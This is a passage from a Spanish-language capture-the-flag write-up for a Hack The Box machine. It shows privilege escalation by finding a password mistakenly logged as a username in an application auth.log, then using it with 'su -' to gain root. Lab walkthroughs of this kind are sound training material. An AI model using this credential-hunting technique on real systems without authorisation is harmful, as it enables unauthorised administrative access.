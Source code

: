 Por desgracia lxc no está instalado en el sistema. Por lo tanto vamos a seguir enumerando.
Si accedemos a la carpeta donde esta montada toda la App Web podemos ver un fichero llamado auth.log

```bash
htb@backend:~/uhc$ cat auth.log 
03/09/2023, 13:10:22 - Login Success for admin@htb.local
03/09/2023, 13:13:42 - Login Success for admin@htb.local
03/09/2023, 13:27:02 - Login Success for admin@htb.local
03/09/2023, 13:30:22 - Login Success for admin@htb.local
03/09/2023, 13:35:22 - Login Success for admin@htb.local
03/09/2023, 13:38:42 - Login Success for admin@htb.local
03/09/2023, 13:52:02 - Login Success for admin@htb.local
03/09/2023, 14:00:22 - Login Success for admin@htb.local
03/09/2023, 14:02:02 - Login Success for admin@htb.local
03/09/2023, 14:08:42 - Login Success for admin@htb.local
03/09/2023, 14:17:02 - Login Failure for Tr0ub4dor&3
03/09/2023, 14:18:37 - Login Success for admin@htb.local
03/09/2023, 14:18:42 - Login Success for admin@htb.local
03/09/2023, 14:19:02 - Login Success for admin@htb.local
03/09/2023, 14:20:22 - Login Success for admin@htb.local
03/09/2023, 14:25:22 - Login Success for admin@htb.local
03/09/2023, 14:32:02 - Login Success for admin@htb.local
03/09/2023, 16:00:05 - Login Failure for bertranuco
03/09/2023, 16:00:34 - Login Failure for bertranuco
03/09/2023, 16:00:39 - Login Success for bertranuco@bly.com
03/09/2023, 16:16:39 - Login Success for admin@htb.local
03/09/2023, 16:20:49 - Login Success for admin@htb.local
```

Podemos ver un Login fallido por "Tr0ub4dor&3" parece una contraseña. Si la probamos con el usuario actual, veremos que no sirve. En el caso de que la probemos con root ocurre lo siguiente

```bash
htb@backend:~/uhc$ su -
Password: 
root@backend:~# id
uid=0(root) gid=0(root) groups=0(root)
root@backend:~# 
```

Ya hemos pwneado la máquina. Espero que te haya servido.